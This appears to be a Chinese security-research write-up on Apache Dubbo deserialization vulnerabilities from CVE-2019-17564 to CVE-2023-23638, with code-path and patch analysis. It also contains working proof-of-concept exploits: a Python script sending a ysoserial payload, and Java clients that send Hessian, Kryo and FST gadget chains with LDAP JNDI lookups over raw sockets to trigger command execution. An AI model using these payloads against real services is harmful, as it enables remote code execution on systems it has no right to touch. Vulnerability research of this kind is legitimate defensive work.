






# dubbo安全漫谈-先知社区

> **来源**: https://xz.aliyun.com/news/17189  
> **文章ID**: 17189

---

# CVE-2019-17564

未复现成功。  
版本

1. 2.7.0 <= Apache Dubbo <= 2.7.4.1
2. 2.6.0 <= Apache Dubbo <= 2.6.7
3. Apache Dubbo = 2.5.x  
   没有复现成功，反正就是http协议，然后会反序列化传输过去的数据。

```
<dubbo:service interface="org.apache.dubbo.samples.http.api.DemoService" ref="demoService" protocol="http"/>
```

```
java -jar ysoserial.jar CommonsCollections6 calc|base64 -w0

import requests
import base64

url = "http://192.168.1.6:8081/org.apache.dubbo.samples.http.api.DemoService"
payload = "rO0ABXNyABFqYXZhLnV0aWwuSGFzaFNldLpEhZWWuLc0AwAAeHB3DAAAAAI/QAAAAAAAAXNyADRvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMua2V5dmFsdWUuVGllZE1hcEVudHJ5iq3SmznBH9sCAAJMAANrZXl0ABJMamF2YS9sYW5nL09iamVjdDtMAANtYXB0AA9MamF2YS91dGlsL01hcDt4cHQAA2Zvb3NyACpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMubWFwLkxhenlNYXBu5ZSCnnkQlAMAAUwAB2ZhY3Rvcnl0ACxMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwc3IAOm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5DaGFpbmVkVHJhbnNmb3JtZXIwx5fsKHqXBAIAAVsADWlUcmFuc2Zvcm1lcnN0AC1bTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHVyAC1bTG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5UcmFuc2Zvcm1lcju9Virx2DQYmQIAAHhwAAAABXNyADtvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ29uc3RhbnRUcmFuc2Zvcm1lclh2kBFBArGUAgABTAAJaUNvbnN0YW50cQB+AAN4cHZyABFqYXZhLmxhbmcuUnVudGltZQAAAAAAAAAAAAAAeHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkludm9rZXJUcmFuc2Zvcm1lcofo/2t7fM44AgADWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7TAALaU1ldGhvZE5hbWV0ABJMamF2YS9sYW5nL1N0cmluZztbAAtpUGFyYW1UeXBlc3QAEltMamF2YS9sYW5nL0NsYXNzO3hwdXIAE1tMamF2YS5sYW5nLk9iamVjdDuQzlifEHMpbAIAAHhwAAAAAnQACmdldFJ1bnRpbWV1cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAB0AAlnZXRNZXRob2R1cQB+ABsAAAACdnIAEGphdmEubGFuZy5TdHJpbmeg8KQ4ejuzQgIAAHhwdnEAfgAbc3EAfgATdXEAfgAYAAAAAnB1cQB+ABgAAAAAdAAGaW52b2tldXEAfgAbAAAAAnZyABBqYXZhLmxhbmcuT2JqZWN0AAAAAAAAAAAAAAB4cHZxAH4AGHNxAH4AE3VyABNbTGphdmEubGFuZy5TdHJpbmc7rdJW5+kde0cCAAB4cAAAAAF0AARjYWxjdAAEZXhlY3VxAH4AGwAAAAFxAH4AIHNxAH4AD3NyABFqYXZhLmxhbmcuSW50ZWdlchLioKT3gYc4AgABSQAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAABc3IAEWphdmEudXRpbC5IYXNoTWFwBQfawcMWYNEDAAJGAApsb2FkRmFjdG9ySQAJdGhyZXNob2xkeHA/QAAAAAAAAHcIAAAAEAAAAAB4eHg="
payload = base64.b64decode(payload)

headers = {"Content-Type": "application/x-java-serialized-object"}
res = requests.post(url,headers=headers,data=payload)
print(res.text)
```

# 环境

```
C:\myapps\apache-zookeeper-3.7.2\bin>zkServer.cmd
https://github.com/Armandhe-China/ApacheDubboSerialVuln
```

# dubbo 协议

官网也说到了这个协议的格式。  
<https://dubbo.apache.org/zh/docs/concepts/rpc-protocol/#protocol-spec> 跟着官方的文档都是可以一一对应上的。

部分poc如下。

```
        byte[] header = new byte[16];
        // 0xdabb Identifies dubbo protocol with value
        Bytes.short2bytes((short) 0xdabb, header);
        // 10000010  第一个 Request 1; Response 0  后5位 Identifies serialization type 具体可以看下面那个map。这里是2
        header[2] = (byte) ((byte) 0x80 | 2);
        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);

        out.writeUTF("2.0.2");
        out.writeUTF("com.arliya.dubbo.api.Person");
        out.writeUTF("0.0.0");
//        out.writeUTF("sayHello");     // 2020-1948  
        out.writeUTF("$invoke");      // 2020-11195  
        out.writeUTF("Ljava/util/Map;");   // 这里指定henssian反序列化的类型。
        out.writeObject(s);
        out.writeObject(new HashMap());
        out.flushBuffer();
        if (out instanceof Cleanable) {
            ((Cleanable) out).cleanup();
        }

        // 请求数据的长度
        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
```

provider这边一样一样的都读出来。然后放到attachment属性里面。

```
public Object decode(Channel channel, InputStream input) throws IOException {
    ObjectInput in = CodecSupport.getSerialization(channel.getUrl(), serializationType)
            .deserialize(channel.getUrl(), input);

    String dubboVersion = in.readUTF();
    request.setVersion(dubboVersion);
    setAttachment(DUBBO_VERSION_KEY, dubboVersion);

    String path = in.readUTF();
    setAttachment(PATH_KEY, path);
    setAttachment(VERSION_KEY, in.readUTF());

    setMethodName(in.readUTF());

    String desc = in.readUTF();
    setParameterTypesDesc(desc);
    。。。。。。
```

具体解析 代码可以看这些地方。dubbo 版本2.7.3 可以看到 decodeBody:132, DubboCodec

```
decodeBody:132, DubboCodec (org.apache.dubbo.rpc.protocol.dubbo)  // 解析 header ，可以看到对header不同的值进行不同的处理。
decode:93, DecodeableRpcInvocation (org.apache.dubbo.rpc.protocol.dubbo)  // 解析body
```

# CVE-2020-1948

这里的 EqualsBean 和 ToStringBean 可以看一下 Hessian\_JNDI 那个链子。打的是rome反序列化。

```
2.7.0 <= Dubbo Version <= 2.7.6
2.6.0 <= Dubbo Version <= 2.6.7
Dubbo 所有 2.5.x 版本（官方团队目前已不支持）
```

这个地方用的是dubbo协议。其实这里打的就是hessian反序列化这个已经比较熟悉了。 看一下这个数据包。  
典型的三次握手和四次挥手。dabb是dubbo的协议头。里面有hessian序列化的数据，然后 c 发送。s 确认收到。然后s再发。



## poc

```
package com.arliya.dubbo.main;

import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;
import org.apache.dubbo.common.io.Bytes;
import org.apache.dubbo.common.serialize.Cleanable;
import org.apache.dubbo.serialize.hessian.Hessian2ObjectOutput;

import java.io.ByteArrayOutputStream;
import java.io.OutputStream;
import java.net.Socket;
import java.util.HashMap;
import java.util.Random;


public class CVE2020194811995 {
    public static void main(String[] args) throws Exception{
        JdbcRowSetImpl rs = new JdbcRowSetImpl();
        rs.setDataSourceName("ldap://127.0.0.1:1389/Basic/Command/calc.exe");
        rs.setMatchColumn("foo");
        Utils.getField(javax.sql.rowset.BaseRowSet.class, "listeners").set(rs, null);
        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);
        EqualsBean root = new EqualsBean(ToStringBean.class, item);
        HashMap s = Utils.makeMap(root, "root");

        byte[] header = new byte[16];
        // 0xdabb Identifies dubbo protocol with value
        Bytes.short2bytes((short) 0xdabb, header);
        // 10000010  第一个 Request 1; Response 0  后5位 Identifies serialization type `fastjson is 6`
        header[2] = (byte) ((byte) 0x80 | 2);
        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);

        out.writeUTF("2.0.2");
        out.writeUTF("com.arliya.dubbo.api.Person");
        out.writeUTF("0.0.0");
//        out.writeUTF("sayHello");     // 2020-1948
        out.writeUTF("$invoke");      // 2020-11195
        out.writeUTF("Ljava/util/Map;");   // 这里指定henssian反序列化得类型。
        out.writeObject(s);
        out.writeObject(new HashMap());
        out.flushBuffer();
        if (out instanceof Cleanable) {
            ((Cleanable) out).cleanup();
        }

        // 请求数据的长度
        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());

        byte[] bytes = byteArrayOutputStream.toByteArray();
        
        Socket socket = new Socket("127.0.0.1", 20880);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
}
```

## 修复

<https://github.com/apache/dubbo/compare/dubbo-2.7.6...dubbo-2.7.7#diff-a32630b1035c586f6eae2d778e19fc172e986bb0be1d4bc642f8ee79df48ade0>  
其实就是加了一些判断。



```
public static boolean isGenericCall(String path, String method) {  
    return $INVOKE.equals(method) || $INVOKE_ASYNC.equals(method);  
}
```

# CVE-2020-11995

```
Dubbo 2.7.0 ~ 2.7.8
Dubbo 2.6.0 ~ 2.6.8
Dubbo 所有 2.5.x 版本
```

其实就是对上个cve的绕过。 该一下这个方法就行。

```
//        out.writeUTF("sayHello");  
        out.writeUTF("$invoke");
```

## 修复

这个地方多加了一些过滤 。

```
public static boolean isGenericCall(String parameterTypesDesc, String method) {  
    return ("$invoke".equals(method) || "$invokeAsync".equals(method)) && "Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;".equals(parameterTypesDesc);  
}
```

# CVE-2021-25641

```
基础  dubbo-common <=2.7.3
Dubbo 2.7.0 to 2.7.8
Dubbo 2.6.0 to 2.6.9
Dubbo all 2.5.x versions (not supported by official team any longer)
```

重点在于不同的反序列化方式。

Dubbo服务在没有配置协议的情况下，默认使用dubbo协议，dubbo协议默认使用hessian2进行序列化传输对象。hessian2反序列化只是其中一个攻击面，太局限，而且hessian2可能会提供黑白名单的限制。所以需要尝试扩展攻击面，此漏洞应运而生。

但是大致意思就是 如果 hessian 设置了黑名单。可以尝试用其它的 readObject 。前面也说dubbo协议的时候也说到了那个map。里面有不同序列化方式所对应的id。

也就是 header 的第三个 字节 里面 最后的5个 byte。

```
        Object templates = Utils.createTemplatesImpl("calc");  
        JSONObject jo = new JSONObject();  
        jo.put("oops",templates);  
//        jo.toJSONString();  
        Object gadgetChain = Utils.makeXStringToStringTrigger(jo);  
        gadgetChain.toString();
```

makeXStringToStringTrigger 是yso里面的方法。这里给出两种不同的序列化方式。

```
package com.arliya.dubbo.main;

import com.alibaba.fastjson.JSONObject;
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;
import org.apache.dubbo.common.io.Bytes;
import org.apache.dubbo.common.serialize.ObjectOutput;
import org.apache.dubbo.common.serialize.fst.FstObjectOutput;
import org.apache.dubbo.common.serialize.kryo.KryoObjectOutput;

import java.io.ByteArrayOutputStream;

import java.io.OutputStream;
import java.net.Socket;
import java.util.HashMap;
import java.util.Random;

public class CVE202125641 {

    public static String SerType = "Kyro";

    public static Object getGadgetsObj(String cmd) throws Exception{
        //Make TemplatesImpl
        Object templates = Utils.createTemplatesImpl(cmd);
        //Make FastJson Gadgets Chain
        JSONObject jo = new JSONObject();
        jo.put("oops",templates);
        return Utils.makeXStringToStringTrigger(jo);
    }

    public static void main(String[] args) throws Exception {

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        byte[] header = new byte[16];
        ObjectOutput objectOutput;
        Bytes.short2bytes((short) 0xdabb, header);

        switch (SerType) {
            case "FST":
                objectOutput = new FstObjectOutput(baos);
                header[2] = (byte) ((byte) 0x80 | (byte)9 | (byte) 0x40);
                break;
            case "Kyro":
            default:
                objectOutput = new KryoObjectOutput(baos);
                header[2] = (byte) ((byte) 0x80 | (byte)8 | (byte) 0x40);
                break;
        }

        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);
        objectOutput.writeUTF("2.0.2");
        objectOutput.writeUTF("org.apache.dubbo.samples.basic.api.DemoService");
        objectOutput.writeUTF("0.0.0");
//        objectOutput.writeUTF("sayHello");
        objectOutput.writeUTF("$invoke");
        objectOutput.writeUTF("Ljava/lang/String;"); //*/

        objectOutput.writeObject(getGadgetsObj("calc"));

        objectOutput.writeObject(null);
        objectOutput.flushBuffer();

        //Transform ObjectOutput to bytes payload
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Bytes.int2bytes(baos.size(), header, 12);
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(baos.toByteArray());

        byte[] bytes = byteArrayOutputStream.toByteArray();

        //Send Payload
        Socket socket = new Socket("127.0.0.1", 20880);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
}
```

# CVE-2021-30179

```
Apache Dubbo 2.7.0 to 2.7.9
Apache Dubbo 2.6.0 to 2.6.9
Apache Dubbo all 2.5.x versions (官方已不再提供支持)
```

我这里说几个比较关键的点。

```
DecodeableRpcInvocation,decode(org.apache.dubbo.remoting.Channel, java.io.InputStream)  
invoke:110, GenericFilter (org.apache.dubbo.rpc.filter)
realize0:454, PojoUtils (org.apache.dubbo.common.utils)
toObjectImpl:34, JndiConverter (org.apache.xbean.propertyeditor)  # 这个地方也可以触发jndi注入。
```

DecodeableRpcInvocation,decode

这个地方注意 这里的 `map.put("generic", "raw.return");` 虽然是我们最后out.writeObject的provider那边最后in.readAttachments 出来的。但是最后都合并到了 attachment 里面。

```
Map<String, Object> map = in.readAttachments();
if (map != null && map.size() > 0) {
    Map<String, Object> attachment = getObjectAttachments();
    if (attachment == null) {
        attachment = new HashMap<>();
    }
    attachment.putAll(map);
    setObjectAttachments(attachment);
}
```

invoke:110, GenericFilter

这里读出map中generic所对应的值，然后这里有几个不同的分支。前三个都是可以打的。

```
String generic = inv.getAttachment(GENERIC_KEY);

if (StringUtils.isEmpty(generic)
        || ProtocolUtils.isDefaultGenericSerialization(generic)
        || ProtocolUtils.isGenericReturnRawResult(generic)) {
    args = PojoUtils.realize(args, params, method.getGenericParameterTypes());
} else if (ProtocolUtils.isJavaGenericSerialization(generic)) {

} else if (ProtocolUtils.isBeanGenericSerialization(generic)) {

} else if (ProtocolUtils.isProtobufGenericSerialization(generic)) {

}
```

realize0:454, PojoUtils

这个pojo就是我们当时 out.writeObject 进去的 LinkedHashMap。前两个类型的if里面也进不去。

注意一下这个isArray()，一会儿下个漏洞的时候会用到它。

然后就是获取class，对应的value进行实例化，然后调用每一个entry的key对应的set方法，然后value为值。

```
private static Object realize0(Object pojo, Class<?> type, Type genericType, final Map<Object, Object> history) {
    
if (pojo.getClass().isArray()) {
}

if (pojo instanceof Collection<?>) {
}

if (pojo instanceof Map<?, ?> && type != null) {
    Object className = ((Map<Object, Object>) pojo).get("class");

}
```

这里JdbcRowSetImpl和JndiConverter都可以用，LinkedHashMap可以让数据传输过程中map里面存放的entry的顺序不会发生改变。

```
    private static void getRawReturnPayload(Hessian2ObjectOutput out, String ldapUri) throws IOException {
//        HashMap jndi = new HashMap();
//        jndi.put("class", "org.apache.xbean.propertyeditor.JndiConverter");
//        jndi.put("asText", ldapUri);
//        out.writeObject(new Object[]{jndi});
//        HashMap map = new HashMap();
//        map.put("generic", "raw.return");
//        out.writeObject(map);

        HashMap jndi = new LinkedHashMap();
        jndi.put("class", "com.sun.rowset.JdbcRowSetImpl");
        jndi.put("dataSourceName", ldapUri);
        jndi.put("autoCommit", ldapUri);
        out.writeObject(new Object[]{jndi});
        HashMap map = new HashMap();
        map.put("generic", "raw.return");
        out.writeObject(map);
    }
```

当然可可以用下面这两种方法。

```
private static void getBeanPayload(Hessian2ObjectOutput out, String ldapUri) throws IOException {

    JavaBeanDescriptor javaBeanDescriptor = new JavaBeanDescriptor("org.apache.xbean.propertyeditor.JndiConverter",7);
    javaBeanDescriptor.setProperty("asText",ldapUri);
    out.writeObject(new Object[]{javaBeanDescriptor});
    HashMap map = new HashMap();
    map.put("generic", "bean");
    out.writeObject(map);

}

private static void getNativeJavaPayload(Hessian2ObjectOutput out, String serPath) throws IOException {
    byte[] payload = getBytesByFile(serPath);
    out.writeObject(new Object[] {payload});
    HashMap map = new HashMap();
    map.put("generic", "nativejava");
    out.writeObject(map);
}
```

Bean的话，也是先实例化，然后调用set方法。

## 修复

前两种方法，实例化的时候会检查实例化的这个类。可以打断点看一下。

```
SerializeClassChecker.validateClass((String)className);
```

NativeJava修复

配置文件中判断是否支持Java反序列化，默认为false。



# CVE-2021-43279

漏洞环境 2.7.14

这个漏洞主要是因为hessian引起的。

com.alibaba.com.caucho.hessian.io.Hessian2Output#writeString(java.lang.String)

就是在provider解析数据的时候，本应该是in.readUTF()。

但是我们构造数据包的时候用的是 out.writeObject(payload());

结果provider解析异常，然后会触发 payload() 的toString 方法。

如果此时如果有toString2rce的gadget。就会有被攻击的风险。

```
DecodeableRpcInvocation,decode
```

```
    public static void main(String[] args) throws Exception{

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        
        byte[] header = new byte[16];
        Bytes.short2bytes((short) 0xdabb, header);
        header[2] = (byte) ((byte) 0x80 | 2);
        
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);

        out.writeUTF("2.0.2");
// 此处本应填写Dubbo提供的服务名   out.writeUTF("com.arliya.dubbo.api.Person");
        out.writeObject(payload());
```



也可以通过重写方法 <https://paper.seebug.org/1814/>

## 修复



# CVE-2023-23638

和 CVE-2021-30179 是相对应的。

|  |  |
| --- | --- |
| 存在漏洞版本 | 安全版本 |
| 2.7.x <= 2.7.21 | 2.7.x >= 2.7.22 |
| 3.0.x <= 3.0.13 | 3.0.x >= 3.0.14 |
| 3.1.x <= 3.1.5 | 3.1.x >= 3.1.6 |

上面说到 CVE-2021-30179 之后新增了黑白名单。

```
SerializeClassChecker.validateClass((String)className);
```

```
    public void validateClass(String name) {
........
        for (String allowedPrefix : CLASS_DESERIALIZE_ALLOWED_SET) {
            if (name.startsWith(allowedPrefix)) {
                CLASS_ALLOW_LFU_CACHE.put(name, CACHE);
                return;
            }
        }

        for (String blockedPrefix : CLASS_DESERIALIZE_BLOCKED_SET) {
            if (BLOCK_ALL_CLASS_EXCEPT_ALLOW || name.startsWith(blockedPrefix)) {
                CLASS_BLOCK_LFU_CACHE.put(name, CACHE);
                error(name);
            }
        }

        CLASS_ALLOW_LFU_CACHE.put(name, CACHE);
    }
```

第一步

把 CLASS\_DESERIALIZE\_ALLOWED\_SET 对应的类的属性增加我们需要利用的类。

或者将CLASS\_DESERIALIZE\_BLOCKED\_SET滞空即可。

第二步

和CVE-2021-30179一样

## 补丁

PojoUtils.realize0

此处forName((String) className)之后会检查该类有没有实现了 `Serializable` 接口

```
if (pojo instanceof Map<?, ?> && type != null) {
    Map<Object, Object> map = (Map<Object, Object>) pojo;
    Object className = ((Map<Object, Object>) pojo).get("class");
    if (className instanceof String) {
        SerializeClassChecker.getInstance().validateClass((String) className);
        try {
            type = ClassUtils.forName((String) className);
            if (GENERIC_WITH_CLZ) {
                map.remove("class");
            }
        } catch (ClassNotFoundException e) {
            // ignore
        }
        SerializeClassChecker.getInstance().validateClass(type);
    }
```

# ref

<https://xz.aliyun.com/t/10916>

<https://xz.aliyun.com/news/11779>  
<https://exp10it.io/2023/03/apache-dubbo-cve-2023-23638-analysis/>

​

文章源码

<https://github.com/C0cr/DubboSec>
